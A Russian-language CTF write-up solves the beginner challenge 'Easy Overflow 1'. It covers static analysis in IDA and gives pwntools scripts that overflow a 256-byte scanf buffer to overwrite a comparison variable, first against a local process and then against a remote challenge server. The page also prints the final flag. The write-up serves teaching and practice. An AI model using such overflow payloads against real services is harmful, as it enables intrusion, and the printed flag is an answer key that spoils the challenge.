 
# Сайт: forkbomb.ru
# Автор: @mrvos (Vlad Roskov) 
# Задание: Easy Overflow 1
# Сложность: Easy

Плавно подходим к четвертому заданию из серии MicCheck. В задании теперь не получится пропатчить память и сразу же получить флаг ибо мы должны отправлять свой ввод на удаленный сервер. Чтобы это сделать надо воспользоваться библеотекой, которая называется pwntools. 
Традиционно начинаем статически анализировать программу.

#### Статический анализ.

![image](https://github.com/user-attachments/assets/790fd5e8-767c-4a75-8aca-14f7551f1750)

В первом блоке программы заносим адрес строки `dword_4006A4` в переменную `giveflag`. По данному адресу лежит строка `No.` о чем нам любезно подсказывает IDA.

![image](https://github.com/user-attachments/assets/f681879a-c794-4192-beeb-fc25da34f2f0)

Ну и собственно сравнивается строка `giveflag` и `s2` с помощью функции `_strcmp` и прыгает в одну из двух веток: одна выводит "локальный флаг", а другая, что флаг нам не дадут. <br />
![image](https://github.com/user-attachments/assets/1803bb82-fdba-4db0-b016-92a71400d56a)
![image](https://github.com/user-attachments/assets/1477319a-d6b0-4d62-91e7-f1c27221065d)
![image](https://github.com/user-attachments/assets/2289ea6b-c081-42af-b2fb-97b714d7a4c9)

#### Решение

Приступим к решению задачи. У нас есть переменная `word` она занимает в памяти 256 байт и  `giveflag`, который занимает 4 байта. 
Выход за пределы массива не проверяется, а также используется небезопасная функция `scanf`, которая считывает данные пока не встретит нулевой байт. Все эти факторы неплохие условия
для того, чтобы переполнить массив `word` и перезаписать данные на стеке.

Получим информацию о бинарном файле с которым мы работаем:
```py
from pwn import *

p = ELF('./mc4_censored')
```

![image](https://github.com/user-attachments/assets/dd5d7fc8-a415-49a0-9e67-29d2ab92ef75)

Никаких защит не стоит, все замечательно, можно спокойно переполнять. Напишем следующий скрипт на языке python

```py
#!/usr/bin/env python3
from pwn import *


p = process('./mc4_censored')
pause()
p.sendline(b"A"*264 + b"Yesss!")
p.interactive()

```
 Данный скрипт заполняет полностью массив `word` и перезаписывает переменную `giveflag`. Проверим работу скрипта: 
 ![image](https://github.com/user-attachments/assets/e9528abd-343f-4b5f-98d0-9a4f8efaee69)

 Локальный флаг получен. Перепишем скрипт и получим настоящий флаг:
 
```py
#!/usr/bin/env python3
from pwn import *


p = remote('109.233.56.90', 11584)
p.sendline(b"A"*264 + b"Yesss!")
p.interactive()

```

![image](https://github.com/user-attachments/assets/a3bd7f15-37a7-457e-875a-42091c3f2a00)


Ответ: `spbctf{babys_f1rst_0verfl0ww}`

